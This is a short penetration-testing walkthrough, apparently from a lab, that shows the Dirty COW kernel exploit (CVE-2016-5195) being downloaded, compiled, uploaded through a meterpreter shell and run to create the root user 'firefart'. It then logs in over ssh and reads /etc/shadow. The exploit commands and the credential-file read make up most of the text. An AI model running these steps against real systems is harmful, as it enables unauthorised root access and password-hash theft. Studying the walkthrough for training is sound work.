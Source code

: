 [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)

[CVE-2016-5195](https://dirtycow.ninja/)

Download the exploit code from the ExploitDB.

In terms of compilation of the actual exploits, there are few techniques that can be used, the first technique is to compile locally on Kali Linux, or you can transfer it over to the target system and complile it on that system. 

```
sudo apt-get install gcc
```

```
cd Downloads
mv 40839.c dirty.c
ls
gcc -pthread dirty.c -o dirty -lcrypt
ls
```

Tranfer this over to the target system. Let's see wether it works. If it dosen't work, we will need to compile the C code on the target system.

```
meterpreter > upload ~/Download/dirty
meterpreter > shell
/bin/bash -i
www-data@ubuntu:/tmp$ ls
www-data@ubuntu:/tmp$ chmod +x dirty
www-data@ubuntu:/tmp$ ./dirty password123
```

We get a few errors here, this is because the exploit code was not compiled on that system.

```
www-data@ubuntu:/tmp$ rm dirty
www-data@ubuntu:/tmp$ ^C
```

```
meterpreter > upload ~/Downloads/dirty.c
meterpreter > shell
/bin/bash -i
www-data@ubuntu:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@ubuntu:/tmp$ ls
www-data@ubuntu:/tmp$ chmod +x dirty
www-data@ubuntu:/tmp$ ./dirty password123
www-data@ubuntu:/tmp$ cat /etc/passwd
www-data@ubuntu:/tmp$ su firefart
```

Login with ssh. List out the file that is only accessible by root user or users with root privileges, like the `/etc/shadow` file.

```
ssh firefart@10.10.10.15
firefart@ubuntu:~# sudo apt-get update
firefart@ubuntu:~# apt-get update
firefart@ubuntu:~# whoami
firefart@ubuntu:~# cat /etc/shadow
```
